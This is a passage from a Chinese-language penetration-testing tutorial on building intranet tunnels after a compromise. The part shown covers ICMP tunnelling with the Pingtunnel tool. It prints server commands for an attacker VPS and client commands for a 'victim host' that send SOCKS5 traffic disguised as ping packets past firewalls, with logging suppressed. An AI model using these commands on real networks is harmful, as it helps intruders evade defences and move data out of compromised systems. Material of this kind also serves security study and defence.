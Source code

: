 

# 网络隧道：突破内网的通行证 - 先知社区

网络隧道：突破内网的通行证

- - -

## 一、前言

内网隧道（Intranet tunnel）指的是通过网络隧道的方式，将内网的服务映射到公网上，从而使得外部主机可以访问内网资源。在后渗透阶段，内网隧道的搭建可以帮助攻击者在内部网络中进行更加隐蔽和灵活的操作，从而更好地实现攻击目标。网络隧道还可以更好的帮助我们绕过内网防御、横向渗透、数据转移、隐藏攻击行为，本文简单介绍几种类型的隧道搭建。

## 二、ICMP 隧道

ICMP（Internet Control Message Protocol）Internet 控制报文协议，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。ICMP 通过 PING 命令访问远程计算机，建立 ICMP 隧道，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而穿过防火墙，因为防火墙一般不会屏蔽 PING 数据包，实现不受限制的访问。

### 隧道搭建

ICMP 隧道搭建使用 Pingtunnel，项目地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel) ，Pingtunnel 把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具，跨平台。

1、服务端（vps）上开启 pingtunnel 服务，我们可以看到在没有客户端连接时，接收到的数据包为 0

```plain
sudo ./pingtunnel -type server -key [密钥，只限数字]
sudo ./pingtunnel -type server -key 000000
```

[![](assets/1708095858-dad40628f38913134a845864546e046f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202651-9df77236-e8e4-1.png)

2、客户端（受害主机）开启 pingtunenl 服务，连接服务端

```plain
pingtunnel.exe -type client -l :[转发本机 2222 端口作为 ICMP 隧道通讯端口] -s [服务端 IP] -[转发类型] 1 -noprint 1 -nolog 1
pingtunnel.exe -type client -l :2222 -s 1.x.x.x -sock5 1 -noprint 1 -nolog 1
```

[![](assets/1708095858-27327ee82bd22d5cfc9ebb1cf12733ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202644-99a4012c-e8e4-1.png)
